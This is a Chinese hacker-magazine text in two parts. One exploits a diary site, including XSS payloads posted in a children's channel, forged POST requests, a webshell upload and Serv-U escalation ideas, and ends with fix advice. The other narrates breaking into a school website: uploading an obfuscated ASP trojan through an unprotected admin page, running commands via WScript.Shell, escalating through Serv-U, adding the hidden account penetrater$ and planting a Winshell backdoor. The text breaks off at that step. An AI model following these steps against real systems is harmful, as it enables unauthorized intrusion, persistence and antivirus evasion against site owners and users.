



在登录日记管理后，总是显示一个页面要填写日记介绍，我们不妨在这里写个跨站代码，这样别人浏览我们的日记本的时候就会执行了。老旧 UE 面对一些糟糕的代码未免有些不爽，于是又用 DreamWeaver 打开本地页面，发现了多个隐藏域……由此可见会话与提交校验存在明显问题。

些小小的漏洞，我们再来看它给老用户提供的免费空间的漏洞。

### 三、免费空间漏洞介绍

```http
POST /add-blog.asp?... HTTP/1.1
Accept: image/gif,image/x-xbitmap,image/jpeg,...
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; ...)
Host: diary.fcxv.com
Content-Length: 257
...
title=...&Content=contentqianzhile...&action=add...
```

我们成功申请了一个免费空间，传一个 Lcx 的老牌木马“溯阳 2006”上去，很好，没有被杀。进去四处观察下，可以发现这个公司使用的是蓝芒的主机系统。蓝芒主机系统是一个搭建在 IIS、Serv-U、WebEasyMail 环境下的虚拟主机管理系统……



图5

这样我们用 NC 发下包就可以完美地绕过可爱的不过滤 session 的程序而非法跨站或者帮别人写日记了。



图3



图4

通过查看系统用户，我们可以发现系统存在许多用户，如图6，并且用户的帐号都是蓝芒主机用户，用户组属 guest……导致越权操作易如反掌。



图6

废话不多说了，我们直接进入 FSO 操作的功能模块，打开 C:\，如图7，所有的文件尽在眼前……



图7

再来看 D:\ 盘，如图9，由于服务器一共就分了 2 个区……我们还可以修改网站的文件或者其他用户的文件。

- 5. 小朋友的日记就安全吗——少儿频道日记跨站漏洞

飞鸽有个少儿频道，办得不错，其中有个让小朋友写日记的功能……我们直接在日记的内容写 `<script>alert('玄猫昨天偷了去猫形奇峰')</script>`，提交，浏览日记，发现对话框弹了出来，跨站成功。

- 6. 小朋友的留言就安全吗——少儿频道留言跨站漏洞

当我们看了别的小朋友的日记的时候，总该给他/她留个言鼓励一下吧……最终的结果是跨站成功。关于网站程序本身的漏洞，暂时就说到这里。





D 盘还有一个 Serv-U 的文件夹，我们仍然可以畅通无阻地进去。有两种方案进行下面的渗透：一是修改 ServUDaemon.ini 这个文件，增加用户；或者是读取高权限用户的密码散列来本地破解。由于这个 Serv-U 的版本是 6.0.0 的，我们可以用本地溢出工具。由于篇幅的原因，这里也不详细地说了，大家可以自己去网上找找看相关的工具。

### 四、对飞鸽的建议

其实我还是比较喜欢飞鸽这个网站的，在决定写这篇文章的时候，联系了飞鸽的管理员白菜和吴明，他们都很积极地研究并修补漏洞。这里还要给他们提出一些建议，同时也帮助各位读者提高警惕，严防入侵。

首先说密码程序，一定要把访问者输入的东西考虑全面，并且在逻辑处理上多下功夫。譬如那个找回密码的功能，最大的一个漏洞啊，而且这个功能的实现其实许多网站都用给用户发送 Email 来提交一个新的密码，这样就能多做一次验证，用户的信息也就更加安全。

再说跨站的那些漏洞，都是用一个替换函数就可以避免的，只不过因为可以输入的地方太多了（系统还有天气、心情等选项，其实都可以跨站的），容易忽略，这可是一个要求很仔细的活啊……

然后是跨用户，仅凭隐藏域来判断用户是根本不保险的，应该用 session 或者 cookies 中同时保存用户名和密码散列，在网站端再做验证也勉强可以。但是这样跨站盗取了用户的 cookies 后也是可以伪造的，所以最好的方法是 session。

我们再来说说空间服务带的权限问题。Everyone 的权限继承的确很容易忽略，我们应该怎样做呢？首先应该去除权限继承，然后删除 everyone 的所有权限，最后再分别对各用户的文件夹给各用户所属的 Internet 来宾帐号分配权限。尤其要注意 All Users 和 serv-u 的目录，这些都是高危文件，泄漏就会引起很大的问题。

最后声明：本文仅供研究漏洞参考，请勿使用本文中的方法攻击任何网站，否则后果自负。在本文完稿时飞鸽的管理员已修补了漏洞，所以大家就不要再盯着它不放了。

## 菜鸟盯人侵

前几天上网和一同学聊天，没聊几句，他就下线了，我可还意犹未尽，于是就顺便到了他的学校网站上看了下，下面叙述的就是这次入侵的全过程。因为我当时是在学校里，于是就拿出了 SocksCap Control，把我的 Snake 代理的 IP 填上，把要用到的扫描器、ftp、telnet、腾讯 TT（我比较喜欢用 TT）全部放到 SocksCap Control 里，如图1。

到主页上还有一个链接，打开一看，是他们学校的后勤专业集团网站。再次使用扫描器扫一下这个后勤专业集团网站，仅开放了 80、8080 端口，如图2。





先 ping 了一下对方的网址，得出了对方的 IP 地址，然后用扫描器扫了一下学校主站（顺便说一下，我用的扫描器可不是 Superscan、Nmap，而是一款仅 20KB 大小、速度超快、可自定义扫描端口的图形界面扫描工具），就开了一个 80 端口。看了一下网页，没有上传的地方，试了几个简单的 sql 注入，字符都被过滤了，找了几处尝试暴库，也没有成功，看来是没有希望了。

80 和 8080 端口都是 web 服务，8080 端口应该是使用 IIS 映射的（从后文得知映射的是本地目录），打开看了一下，地址是 http://life.xxxx.edu.cn:8080/hqjt/，页面做得很漂亮，习惯性在后面加了个 admin，不行，又试了一下 admin_main.asp，呵呵，进入管理员登录页面了，如图3。



有时候入侵靠的就是运气（看来今天可以买买彩票了，狂喜！），管理员密码都不需要，直接上传 asp 木马，如图4。



没有任何验证，直接上传成功！打开链接，把使用者之道 asp 木马给“加壳工具”加密过的海阳顶端 2006 木马写入。

这里最好加密一下，我曾经通过一台肉鸡的 3389 登录上去挂 QQ，就因为网页木马没有加密导致 QQ 好友全被刷，大家可要注意了。现在打开我们的海阳 2006 木马，居然没被查杀，成功得到对方的 webshell，如图5。



进去一看，C、D、E 盘都可以访问（刚开始以为系统盘是 C 盘，后面才知道是 E 盘，网站主目录也在 E 盘），难道管理员知道我要来，怕累着我。期间，使用 WScript.Shell 运行命令 `net start`，发现安装了 Serv-U ftp，这个我喜欢，待会儿提升权限用得着，如图6。



再看一下端口，开了 21、80、8080，还有 ftp 的本地管理端口 43958。刚才扫描时扫不到 21 端口，看来 ftp 是面向学校内部的。分析一下最有希望的提权还是利用 ftp 本地权限提升漏洞。先上传一个 ftp.exe，上传目录是 `c:\winnt\system32\inetsrv\data\`，这个目录默认为 everyone 可写，而且比较有隐藏性。

添加了用户 penetrater$，如图7。


下一步我决定传个木马上去，我选择使用 Winshell。Winshell 能够自定义连接端口、连接密码、Banner、启动名、服务名，可重启、命令行下载等，生成后门压缩后仅 7KB 左右，是 CLI 下较好用的后门工具。配置项包括显示名称（displayname）、系统服务名称、自动加载（Autoinstall）等，如图8。

